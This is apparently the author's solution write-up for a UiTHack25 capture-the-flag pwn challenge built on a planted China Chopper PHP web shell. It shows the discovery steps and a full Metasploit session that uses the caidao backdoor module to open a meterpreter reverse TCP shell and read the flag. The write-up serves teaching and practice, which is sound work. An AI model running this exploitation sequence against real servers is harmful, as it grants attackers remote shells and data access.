

# The little cyborg that could

>> Pwn - hard
> Some punks have been messing with the Citizen tracking servers.
> They keep getting in and messing with the data.
>
> Find how out how they keep getting in, if not you are fired!
>
> URL: <https://uithack-2.td.org.uit.no:9003/index.html>

## Challenge Description

The challenge is based upon the very famous China Chopper web shell, discussed in the mandiant report [1].
The challenge is designed to test the participants' ability to identify and apply a web shell exploit.  
To help the participants, the challenge provides a testing shell which returns the input data back to the user.  

Trying to lock down the server with a vurnerability as dangerous as the China Chopper is no small feat.
Because of the shear number of ways this web shell can be exploited, we do expect to get pwned.

### Author solution

When visiting the website, we are greeted with the pwn notice from Nexus Anarchists. Here a vital clue is given that the server has already been compromised, and we are given a password `NEXUSANARCHY2337`.  
Next step is to find where the password can be used.

In the source code of the website, we find a comment with a link with the text `Admin`.

```html
<!-- <li><a href="/html/hello.html">Admin</a></li> -->
```

Visiting the link, we are with a page with several links to different files.

```html
Hello world!
<br>

Dave's bookmarks:<br>

<a href="/admin/flag.txt">flag</a><br>
<a href="/gui_shell.php">mgmt</a><br>
<a href="/admin/info.php">info</a><br>
<a href="/admin/">admin console</a><br>
```

Unfortunately, the `flag.txt` file is not accessible, as well as the mgmt interface!?.  
From the `info.php` file, we can see that the server is running `Apache2 with php (Debian)`.  
However, the `admin console` link is interesting. Where we find this file listing



There are several system info files and some `.conf` files. However, the `323d09c08a72717bbec71f172e5f6532.php` file is interesting, seems like a filehash. Googling the filename shows no results, however duckduckgo shows shows several results, albeit none of the results are relevant. Testing the hash on virustotal shows that the file is a known PHP web shell [2].

Reading up on the China Chopper web shell, we learn several ways to exploit the web shell [1][3][4]. However, the `@eval` exploit chain is quite complex and requires a fair bit of work to get working.
We do not really want to create our own client, and using the original `caidao` client is not recommended. Instead we can use the Metasploit module [`exploit/multi/http/caidao_php_backdoor_exec`](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md) to exploit the web shell using the password provided earlier [5].

```
msf6 > use exploit/multi/http/caidao_php_backdoor_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rport 8080
rport => 8080
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set PASSWORD NEXUSANARCHY2337
PASSWORD => NEXUSANARCHY2337
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set TARGETURI /admin/323d09c08a72717bbec71f172e5f6532.php
TARGETURI => /admin/323d09c08a72717bbec71f172e5f6532.php
msf6 exploit(multi/http/caidao_php_backdoor_exec) > check
[+] 127.0.0.1:8080 - The target is vulnerable.
msf6 exploit(multi/http/caidao_php_backdoor_exec) > exploit
[*] Started reverse TCP handler on 10.33.1.32:4444 
[*] Sending exploit...
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (10.33.1.32:4444 -> 172.17.0.2:58984) at 2025-02-24 22:25:26 +0100

meterpreter > ls
Listing: /var/www/admin
=======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
101755/rwxr-xr-x  217   fil   2013-06-06 14:01:00 +0200  323d09c08a72717bbec71f172e5f6532.php
101755/rwxr-xr-x  78    fil   2025-02-24 19:45:05 +0100  README.md
101755/rwxr-xr-x  7178  fil   2025-02-24 22:16:46 +0100  apache2.conf
101755/rwxr-xr-x  335   fil   2025-02-24 22:16:46 +0100  docker-php.conf
101755/rwxr-xr-x  54    fil   2025-02-24 19:45:05 +0100  flag.txt
101755/rwxr-xr-x  19    fil   2025-02-24 19:45:05 +0100  info.php
101755/rwxr-xr-x  267   fil   2025-02-24 22:16:46 +0100  os-release
101755/rwxr-xr-x  254   fil   2025-02-24 21:47:49 +0100  test.php
101755/rwxr-xr-x  1074  fil   2025-02-24 22:13:30 +0100  uithack.conf

meterpreter > cat flag.txt
UiTHack25{02_quota_revoked_please_submit_for_disposal}
```

### References

[1] <https://www.mandiant.com/sites/default/files/2021-09/rpt-china-chopper.pdf>\
[2] <https://www.virustotal.com/gui/file/c4bfc3d39c1d01fa01b2100f1e1c8a58e74a2164fe6fae3c320d23ca3682e058/detection>\
[3] <https://informationonsecurity.blogspot.com/2012/11/china-chopper-webshell.html>\
[4] <https://www.exploit-db.com/docs/27654>\
[5] <https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md>